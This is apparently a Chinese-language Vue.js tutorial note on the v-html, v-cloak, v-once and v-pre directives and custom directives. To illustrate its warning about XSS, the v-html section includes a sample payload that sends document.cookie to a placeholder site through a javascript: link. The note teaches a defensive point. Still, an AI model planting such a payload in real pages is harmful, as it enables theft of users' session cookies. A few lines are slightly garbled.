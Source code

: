 要考虑到安全性问题

<img src="https://tyangjian.oss-cn-shanghai.aliyuncs.com/tmp/202306101839442.png" alt="image-20230610183854816" style="zoom:50%;" />

v-html指令:

1. 作用:向指定节点中渲染包含html结构的内容。

2. 与插值语法的区别:

   (1).v-html会替换掉节点中所有的内容,{{xx}}则不会。

   (2).v-html可以识别html结构。

3. 严重注意: v-html有安全性问题!!!!

​	(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

​	(2).一定要在可信的内容上使用v-html，永不要用在用户提交的内容上!

~~~js
<div v-html="str"></div>
new Vue(){
    el:"#root",
    data:{
        str:'<a href=javascript:location.href="xxxx网站?"+document.cookie >兄弟我找到很好玩的东西'
    }
}
~~~

### v-cloak

v-cloak指令(没有值):

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2. 使用css配合v-cloak可以解决网速慢时页面展示出{{xXx}}的问题。

### v-once

v-once指令:

1. v-once所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

### v-pre

v-pre指令:

1. 跳过其预在节点的编详过霜.
2. 可利用它跳过:没有使用指令语法、没有使用插值语法的节点。公加快编译。

## 1.16自定义指令

~~~js
directives:{
    big(element,binding){
        element.innerText = binding.value * 10
    }
}
~~~
